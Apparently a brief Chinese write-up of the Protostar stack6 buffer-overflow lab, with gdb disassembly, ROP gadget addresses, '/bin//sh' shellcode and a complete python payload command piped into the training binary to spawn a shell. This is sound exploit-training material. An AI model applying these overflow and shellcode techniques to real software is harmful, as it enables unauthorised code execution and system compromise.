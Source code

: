 找到1个可以勉强修改edx的指令：
···
0xb7ff9764 <memcpy+52>: mov    %edx,%ecx
0xb7ff9766 <memcpy+54>: cld
0xb7ff9767 <memcpy+55>: rep movsb %ds:(%esi),%es:(%edi)
0xb7ff9769 <memcpy+57>: mov    (%esp),%esi
---Type <return> to continue, or q <return> to quit---
0xb7ff976c <memcpy+60>: mov    0x4(%esp),%edi
0xb7ff9770 <memcpy+64>: mov    %ebp,%esp
0xb7ff9772 <memcpy+66>: pop    %ebp
0xb7ff9773 <memcpy+67>: ret
···

···
0x080485c4: pop ecx ; pop ebx ; leave  ; ret  ;  (1 found)------>ecx=0
'\xc4\x85\x04\x08'+'\x00\x00\x00\x00'+'a'*4
0x0804835c: pop eax ; pop ebx ; leave  ; ret  ;  (1 found)------>eax=0xb 
'\x5c\x83\x04\x08'+'\x0b\x00\x00\x00'+'b'*4
···

leave指令后返回ebp。这里ebp可以被我们控制。但栈地址不固定。

push 0x68732f2f   ; /bin//sh
push 0x6e69622f
mov ebx, esp


echo $(python -c 'print ("a"*80)+ "\x1d\x9a\xe9\xb7"+"\xc4\x85\x04\x08"+"\x00\x00\x00\x00"+("a"*4)+"\x5c\x83\x04\x08"+"\x0b\x00\x00\x00"+("b"*4)')$(cat /tmp/ss)| /opt/protostar/bin/stack6

思路：
jmp esp +ROP版本的 EAX,ECX改变+ASM版本的( move ebx "/bin/sh"+call syscall)

考虑到这里ROP指令不足，只能成功修改eax,ecx,且都含leave指令。
最终放弃ROP做法。jmp esp rocks。



